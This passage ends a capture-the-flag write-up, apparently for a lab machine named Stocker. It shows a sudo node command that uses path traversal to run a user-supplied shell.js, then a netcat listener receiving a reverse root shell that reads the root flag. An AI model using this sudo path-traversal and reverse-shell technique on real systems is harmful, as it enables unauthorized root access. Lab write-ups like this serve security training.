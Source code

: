 ```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/shell.js 
```

It hangs but back on the listener

```
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.196] 52904
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls -al
total 44
drwx------  6 root root 4096 Jan  9 10:42 .
drwxr-xr-x 20 root root 4096 Dec 23 16:58 ..
lrwxrwxrwx  1 root root    9 Dec  6 09:54 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Nov 19 10:52 .bashrc
drwx------  3 root root 4096 Dec  6 10:33 .cache
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .local
drwx------  3 root root 4096 Dec  6 10:33 .mongodb
drwxr-xr-x  4 root root 4096 Dec  6 10:33 .npm
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Jan 22 23:16 root.txt
-rw-r--r--  1 root root   66 Dec 21 21:35 .selected_editor
-rw-r--r--  1 root root   13 Nov 19 10:52 .vimrc
cat root.txt
e2f16acfc2dcf44585d2c534c42a969e
```

And we're done


<br> <br>
[Back To Home](../../index.md)
<br>












